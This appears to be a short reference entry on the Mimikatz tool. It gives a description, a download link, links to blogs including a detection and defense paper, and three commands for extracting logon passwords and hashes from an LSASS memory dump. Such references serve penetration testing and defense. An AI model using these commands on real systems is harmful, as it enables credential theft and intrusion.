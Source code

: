 <b>Mimikatz:</b>mimikatz is a tool I've made to learn C and make somes experiments with Windows security. It's now well known to extract plaintexts passwords, hash, PIN code and kerberos tickets from memory. mimikatz can also perform pass-the-hash, pass-the-ticket or build Golden tickets.

Download: https://github.com/gentilkiwi/mimikatz/releases

Commands to run on lsass dump file:
  - mimikatz # privilege::debug
  - mimikatz # sekurlsa::minidump lsass.dmp
  - mimikatz # sekurlsa::logonPasswords

Blogs:
  - https://adsecurity.org/?page_id=1821
  - https://www.sans.org/reading-room/whitepapers/detection/mimikatz-overview-defenses-detection-36780
  - https://www.offensive-security.com/metasploit-unleashed/mimikatz/
  - http://blog.gentilkiwi.com/mimikatz
  - 

